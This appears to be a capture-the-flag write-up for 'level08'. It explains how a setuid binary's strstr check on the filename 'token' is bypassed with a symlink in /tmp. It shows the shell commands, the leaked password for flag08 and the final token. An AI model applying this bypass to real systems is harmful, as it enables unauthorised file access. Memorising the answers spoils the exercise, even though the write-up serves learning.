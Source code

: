 # level08

1. Files found in `~/` :

```bash
level08  token
```

Binary file `level08` (which requires a parameter) as well as a `token` file at the root, so we tried to give the token file to the executable :

```bash
./level08 token
You may not access token
```

2. Binary analysis

```bash
strings level08
```

Several lines catch our attention :

```bash
__stack_chk_fail
printf
strstr
read
open

%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
```

We can deduce that there is a check fail, `__stack_chk_fail`, and that there is a good chance that the check is done by comparing two strings with `strstr`. We can then see that two strings exist in the logs so `%s` and `token`. We therefore deduce that the file passed as parameter must not be named `token`.

3. Exploitation

We have no rights on `token`, so impossible to rename or copy. We therefore decided to create a shortcut to `token` named `lecteur` in /tmp/ :

```bash
ln -s /home/user/level08/token /tmp/lecteur
./level08 /tmp/lecteur
```

Launch `./level08` with `/tmp/lecteur` as parameter, the compared string will then not be `token`.

4. Final exploitation

```bash
su flag08
quif5eloekouj29ke0vouxean
getflag
```

5. Token discovered

The token is : `25749xKZ8L7DkSCwJkT9dyv6f`
